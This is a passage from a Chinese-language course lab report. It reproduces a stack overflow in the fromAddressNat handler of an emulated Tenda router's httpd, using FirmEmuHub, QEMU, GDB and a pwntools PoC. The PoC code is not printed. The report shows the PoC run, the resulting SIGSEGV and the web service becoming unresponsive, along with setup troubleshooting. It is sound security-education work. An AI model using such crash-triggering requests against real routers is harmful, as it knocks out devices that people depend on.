   该语句依赖 `pwntools` 库，因此需要在当前 Python 环境中安装该依赖。执行如下命令安装：

   ```bash
   pip install pwntools -i https://pypi.tuna.tsinghua.edu.cn/simple
   ```

   安装完成后，使用简单命令验证 `pwntools` 是否能够正常导入：

   ```bash
   python3 -c "from pwn import *; print('pwntools ok')"
   ```

   终端输出：

   ```text
   pwntools ok
   ```

   说明 PoC 所需的 Python 依赖已经安装成功。

   

   

#### 3. 运行 PoC 并触发断点

   在 GDB 中已经设置好断点并执行 `continue` 后，运行 PoC 脚本：

   ```bash
   python3 POC_Pro.py
   ```

   PoC 运行后，终端输出如下信息：

   ```text
   [+] connecting
   [+] connect finish
   [+] sendling payload
   ```

   其中 `sendling` 是脚本原有输出中的拼写，不影响实际发送过程。上述信息说明脚本成功连接到目标 Web 服务，并发送了构造好的 payload。与此同时，GDB 窗口中成功命中此前设置的断点：

   ```text
   Breakpoint 1, 0x00079d94 in fromAddressNat ()
   ```

   这表明 PoC 请求已经进入 `fromAddressNat` 函数，请求成功到达实验手册中指定的漏洞处理位置。

   

#### 4. 继续执行并观察程序崩溃

   在 GDB 命中断点后，继续执行程序：

   ```gdb
   c
   ```

   程序继续运行后，GDB 输出如下异常信息：

   ```text
   Program received signal SIGSEGV, Segmentation fault.
   0x3fdb4298 in ?? ()
   ```

   该结果说明程序收到了 `SIGSEGV` 段错误信号，GDB 将程序暂停在地址 `0x3fdb4298`，但当前缺少该地址对应的符号信息。结合 PoC 已经成功进入 `fromAddressNat` 函数，可以确认构造请求使目标程序进入异常状态，完成了本实验要求的漏洞触发验证。仅凭该地址本身，不能进一步断定程序已经发生控制流劫持。

   同时，PoC 终端中返回了：

   ```text
   HTTP/1.0 302 Redirect
   ```

   表明请求已经被目标 Web 服务处理，随后程序在继续执行过程中发生异常。

   

#### 5. 验证 Web 服务异常状态

   为进一步验证漏洞触发后的服务状态，使用 `curl` 再次访问目标 Web 服务：

   ```bash
   curl -I --connect-timeout 3 --max-time 5 http://127.0.0.1:32768
   ```

   返回结果显示：

   ```text
   curl: (28) Operation timed out after 5007 milliseconds with 0 bytes received
   ```
   

   说明在 PoC 触发且 GDB 因 `SIGSEGV` 暂停目标进程后，Web 服务无法继续响应请求。随后在浏览器中重新访问：

   ```text
   http://127.0.0.1:32768/main.html
   ```

   页面长时间处于等待状态，无法正常加载 Tenda 管理界面。该现象与 GDB 中观察到的 `SIGSEGV` 相互印证，说明目标 `httpd` 进程已经因构造请求进入异常并被调试器暂停，Web 服务因而不可用。


   


## 五、实验问题与解决方法


### （一）Docker 拉取基础镜像失败

启动 FirmEmuHub 构建镜像时，Dockerfile 第一行需要拉取基础镜像：

```dockerfile
FROM fitzbc/fat_ubuntu1604:v6
```

但实验过程中出现连接 Docker Hub 失败、镜像源返回 `403 Forbidden` 等问题，导致 Docker 镜像无法正常构建。

为解决该问题，修改 Docker 镜像源配置文件：

```bash
sudo nano /etc/docker/daemon.json
```

添加可用的镜像加速地址后，重启 Docker 服务：

```bash
sudo systemctl daemon-reload
sudo systemctl restart docker
```

随后重新执行：

```bash
docker pull fitzbc/fat_ubuntu1604:v6
```

成功拉取基础镜像后，再次运行：

```bash
python3 emulation.py -b ./Benchmark/BM-2024-00012
```

镜像成功构建，FirmEmuHub 容器也正常启动。

---

### （二）虚拟机磁盘空间不足

在 Docker 拉取镜像和构建 FirmEmuHub 容器过程中，Ubuntu 虚拟机提示磁盘空间不足。通过 `df -h` 查看发现根分区 `/dev/sda3` 已经达到 100%，导致图形界面也一度无法正常启动。


解决方法是先在 VirtualBox 虚拟介质管理器中将 Ubuntu 虚拟硬盘扩展到 60GB。随后进入 Ubuntu 的 tty 命令行界面，使用以下命令扩展分区和文件系统：

```bash
sudo growpart /dev/sda 3
sudo resize2fs /dev/sda3
```

扩容完成后，再次执行：

```bash
df -h
```

确认根分区容量已经扩大，系统恢复正常，后续 Docker 构建和实验操作也能够继续进行。

---


### （三）运行 PoC 时缺少 pwn 模块

运行 `POC_Pro.py` 时，出现如下错误：

```text
ModuleNotFoundError: No module named 'pwn'
```

这是因为 PoC 脚本中使用了：

```python
from pwn import *
```

但当前 Python 环境中尚未安装 `pwntools`。解决方法是在对应的 Python 环境中安装该依赖：

```bash
pip install pwntools -i https://pypi.tuna.tsinghua.edu.cn/simple
```

安装完成后使用以下命令验证：

```bash
python3 -c "from pwn import *; print('pwntools ok')"
```

终端输出 `pwntools ok` 后，说明依赖安装成功。之后重新运行 PoC，能够正常连接目标服务并发送 payload。


## 六、实验总结

本次实验完成了 IoT 路由器固件从仿真环境搭建到漏洞触发验证的完整流程。首先使用 FirmEmuHub 和 Docker 构建目标固件的运行环境，通过修改 `run.sh` 使容器保持运行，再利用 `qemu-arm-static` 在 x86_64 环境中模拟执行 32 位 ARM 架构的 `httpd` 程序。实验结果表明，容器端口映射和固件 Web 服务均能够正常工作，Tenda 管理页面可以通过 Ubuntu 虚拟机本地端口访问。

在动态调试阶段，使用 `gdb-multiarch` 连接 QEMU 提供的远程调试端口，指定 ARM 架构，并在 `0x00079d94` 处设置断点。运行 PoC 后，GDB 成功在 `fromAddressNat` 函数处暂停，说明构造请求已经到达预期的漏洞处理路径；继续执行后，程序收到 `SIGSEGV` 信号，Web 服务也无法继续响应。结合实验目标与 PoC 设计，本实验完成了对目标栈溢出风险的触发验证，并观察到了由此造成的服务异常。

实验过程中还解决了 Docker 基础镜像拉取失败、虚拟机磁盘空间不足以及 Python 缺少 `pwntools` 依赖等问题。这些问题说明，固件漏洞复现实验不仅依赖漏洞分析方法，也依赖容器、文件系统、模拟执行器和调试器之间的正确配合。通过本次实验，我进一步掌握了 ARM 固件程序的仿真运行、远程调试、断点验证和异常分析方法，也认识到实验结论应与现有证据保持一致：当前结果能够确认特制请求可触发程序异常和服务不可用，但若要判断漏洞能否进一步实现控制流劫持或任意代码执行，还需要结合寄存器、栈内存、崩溃指令和输入偏移量开展更深入的分析。

## 参考资料

1. 《IoT 设备栈溢出漏洞利用实验》0x08，课程实验资料。
2. FirmEmuHub 项目仓库：https://github.com/a101e-lab/FirmEmuHub
3. pwntools 官方文档：https://docs.pwntools.com/
4. GDB 官方文档：https://sourceware.org/gdb/documentation/
5. QEMU 官方文档：https://www.qemu.org/docs/master/
